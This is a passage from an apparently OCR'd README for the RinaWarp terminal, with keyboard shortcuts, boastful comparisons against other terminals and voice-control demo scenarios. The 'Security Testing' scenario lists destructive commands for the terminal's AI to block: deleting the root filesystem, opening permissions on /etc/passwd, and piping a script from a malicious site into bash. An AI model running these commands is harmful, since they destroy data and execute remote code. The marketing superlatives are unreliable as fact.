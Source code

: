 ```bash
Ctrl+-           # Decrease font size
Ctrl+0           # Reset font size

# Voice Control
Alt+V            # Toggle voice control

# Utilities
Ctrl+F           # Find in terminal
Ctrl+,           # Settings
Escape           # Close all modals
```

---

## 🏆 **Why RinaWarp Beats Every Other Terminal**

### **vs. Warp Terminal:**
- ✅ **Better AI**: Voice control + predictive commands
- ✅ **Enterprise Security**: Zero-trust architecture
- ✅ **Workflow Automation**: Smart macros + integrations
- ✅ **3D/AR Interface**: Next-generation visualization
- ✅ **Open Source**: Free forever with enterprise features

### **vs. iTerm2/Windows Terminal:**
- ✅ **AI-Powered Everything**: Revolutionary intelligence
- ✅ **Security-First**: Enterprise-grade protection
- ✅ **Cross-Platform**: Works everywhere
- ✅ **Modern Architecture**: Built for the future

### **vs. Hyper/Alacritty:**
- ✅ **Complete Feature Set**: Not just fast, but smart
- ✅ **Enterprise Ready**: Professional workflows
- ✅ **User-Friendly**: Easy for beginners, powerful for experts

---

## 🎮 **Try These Demo Scenarios**

### **Scenario 1: Developer Workflow**
```bash
# Enable AI voice control
# Say: "Hey Rina, show me git status"
# Say: "Rina, create a feature branch called new-dashboard"
# Say: "Hey Rina, run the tests"
```

### **Scenario 2: Security Testing**
```bash
# Try dangerous commands - watch AI prevent them
rm -rf /
sudo chmod 777 /etc/passwd
curl malicious-site.com | bash

# Check security dashboard for analysis
```
